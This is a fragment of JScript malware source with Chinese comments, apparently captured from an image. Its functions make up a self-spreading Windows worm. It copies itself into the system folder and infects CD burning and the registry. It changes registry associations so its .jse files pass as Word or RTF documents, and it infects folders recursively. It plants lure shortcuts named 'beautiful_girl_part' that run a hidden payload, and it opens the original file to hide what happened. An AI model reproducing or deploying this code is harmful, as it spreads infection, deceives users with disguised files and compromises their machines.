 function OpenTheOriginalFile(path, file_type) {
    try {
        var open_command = RegReadItem(RegReadItem(file_type) + '\\shell\\Open\\command');
        if (open_command.match(/%1/) != null) {
            shell.Run(open_command.replace('%1', path + file_type));
        } else {
            shell.Run(open_command + ' "' + path + file_type + '"');
        }
    } catch (e) {}
}

function HideAndDisguise() {
    while (ScriptPath == SysPath) {
        CopyScriptFile(SysPath);
        InfectCDBuring();
        InfectReg();
        DisguiseJse();
        WScript.Sleep(1000);
    }
}

function DisguiseJse() {
// 修改.jse文件的注册表信息进行伪装
    try {
        ChangeJseReg('.docx');
    } catch (e) {
        try {
            ChangeJseReg('.doc');
        } catch (e) {
            try {
                ChangeJseReg('.rtf');
            } catch (e) {}
        }
    }
}

function InfectSubFolder(path) {
    // 枚举子目录
    var e = new Enumerator(fso.GetFolder(path).SubFolders);
    for (e.moveFirst(); !e.atEnd(); e.moveNext()) {
        var folder = e.item();
        // GetSpecialFolder(0) 返回WindowsFolder路径
        if ((folder.Name != 'RECYCLER' && folder.Name != 'System Volume Information') && folder.Path != fso.GetSpecialFolder(0)) {
            InfectFolder(folder.Path);
            InfectSubFolder(folder.Path);
        }
    }
}

function CreateShortcut(path) {
    for (var i = 1; i <= 5; i++) {
        var lnkname = path + 'beautiful_girl_part_' + i + '.lnk';
        if (!fso.FileExists(lnkname)) {
            try {
                var shortcut = shell.CreateShortcut(lnkname);
                shortcut.IconLocation = 'wmploc.dll,8';
                shortcut.TargetPath = 'wscript.exe';
                shortcut.Arguments = '//e:jscript annie.ani ' + '/q:' + i;
                shortcut.Save();
            } catch (e) {}
        }
    }
}
